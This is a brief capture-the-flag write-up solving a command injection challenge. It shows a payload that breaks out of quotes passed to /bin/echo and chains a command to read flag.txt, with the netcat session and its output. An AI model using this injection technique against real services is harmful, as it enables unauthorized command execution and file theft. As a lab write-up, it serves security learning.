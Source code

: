 ### Solved by superkojiman

We can inject commands to run ont he server. Basically the program will concatenate /bin/echo + the flag. If we inject ```";/bin/cat flag.txt;```, we close the quotes which completes the arguments to /bin/echo. This allows us to chain our next command to read flag.txt:

```
superkojiman@shell-web:~$ nc localhost 16023
";/bin/cat flag.txt;
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //
19bc7cb34950108982ea0b9e276c822d
sh: 3: /: Permission denied
sh: 4: //: Permission denied
sh: 5: //: Permission denied
sh: 6: //: Permission denied
sh: 7: //: Permission denied
sh: 8: //: Permission denied
sh: 9: //___________________________________/: not found
sh: 10: //: Permission denied
sh: 11: //: Permission denied
sh: 12: //: Permission denied
sh: 13: //: Permission denied
sh: 14: //: Permission denied
sh: 15: //: Permission denied
sh: 17: Syntax error: Unterminated quoted string
```
